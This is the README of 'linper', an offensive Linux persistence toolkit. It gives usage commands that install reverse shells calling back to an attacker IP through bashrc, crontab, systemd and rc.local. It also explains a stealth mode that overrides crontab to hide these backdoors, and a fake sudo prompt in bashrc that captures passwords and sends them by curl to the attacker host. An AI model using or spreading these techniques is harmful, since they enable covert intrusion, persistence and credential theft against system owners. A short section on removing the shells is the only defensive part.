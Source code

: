 # linper

linux persistence toolkit - enumerate, install, or remove persistence mechanisms

## files

- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me
- gtfobins/ - directory containing (possibly modified) snippets of code from [gtfobins](https://gtfobins.github.io/) as I am working on integrating them into the overall script
- powershell/ - placeholder for the eventual winper

## features

- enumerate programs that can be used to execute a reverse shells and ways to make the persist a reboot
- automatically install reverse shells with all the required syntax, redirection, and pipes to minimize printing errors to screen or interrupting normal functions and processes
- supply custom crontab schedules for reverse shells
- look through /etc/shadow for non-system accounts
- support for a stealth mode and the ability to clean up after itself
- place a function in ~/.bashrc to intercept and exfil sudo passwords

## usage

### enumerating binaries for persistence

`bash linper.sh --dryrun`

`bash linper.sh -d`

### installing reverse shells

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

#### stealth mode

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

### remove reverse shells to a given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

#### caveat

- This functionality is designed to remove reverse shells installed using this tool however since this tool uses common/well-known techniques, it may also be used to remove unwanted reverse shells if you know the C2 domain/IP

## methodology

### installing

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is installed <b>(the doors, and how often they execute, are explained in greater detail below)</b>

2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack that binary". Thanks to [this Null Byte article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea.

3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)

4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

#### stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. Makes the files related to installing services hidden by prepending a "."

2. Disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. Creates a `crontab` function in \~/.bashrc to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells

##### caveat

If you run `-s, --stealth-mode` as a sudo enabled user, be aware that you can bypass the `crontab` function installed in \~/.bashrc because aliases are not preserved when running `sudo`, nor does `sudo` call the `root` user aliases. (This does not interfere with the sudo hijack attack)

### cleaning

1. To remove shells from the bashrc (current user's and /etc/skel), it simply greps out any lines with the given RHOST and creates a temp file which is then used to replace the respective file

2. To remove shells from crontab, it attempts to grep out any lines with the given RHOST from `crontab -l`, then greps for any remaining `[a-zA-Z0-9]` characters and pipes that to crontab. If the install fails, it assumes there are no other cron jobs so it runs `crontab -r`

3. To remove reverse shells from systemctl service files, it looks for the any file with the given RHOST in it and then looks for the name of said file in any other file and removes both

4. To remove shells from /etc/rc.local, it simply greps out any reference to the given RHOST and if the remaining file is two lines long it assumes there was nothing else to execute in rc.local so it removes the file (it checks for two lines because, at minimum, it must start with `!#/bin/sh -e` and end with `exit 0`)

5. To remove the `crontab` function installed by `-s, --stealt-mode`, it looks for the provided RHOST in ~/.bashrc and the string "function crontab". If both return true then it uses sed amd grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file 

## execution frequency

this will explain how often different programs installed by the tool will execute

### doors

how often a reverse shell installed using each door will callback

- bashrc, every time bash initializes for the user it was installed with (e.g. interactive shell, or running "/bin/bash") 
- crontab, every minute (this can be changed by altering the $CRON variable at the top of the script) (see TODO.md)
- systemctl, at system startup
- /etc/rc.local, at system startup
- /etc/skel/.bashrc, after a new user is created, and then any time that user initializes bash

### sudo hijack attack

how often the `sudo` alias will attempt to exfil passwords

- every time `sudo` is executed by the account linper was ran as
- make sure to have a web server running on port 443 on the IP you provided as the `-i, --rhost`

#### how it works

1. when linper is executed it puts a `sudo` function in the bashrc of the current user

after it is installed and once `sudo` is executed, the alias will:

2. takes note of where the actual `sudo` program is located on the system
3. determines where to create a file to store exfiltrated passwords
4. creates a fake `sudo` prompt and stores the input (password) as a variable
5. puts the contents of the variable in the file from step 3
6. sorts and deduplicates aforementioned file
7. base64 encodes the contents of the file and stores it as a variable
8. uses `curl` to exfiltrate the base64 as a GET parameter to https://$RHOST/
9. runs `exit` with the actual `sudo` program to start the sudo session timer
10. runs the supplied input of the original `sudo` command (not the password, but the program and arguments) with the actual `sudo` binary 

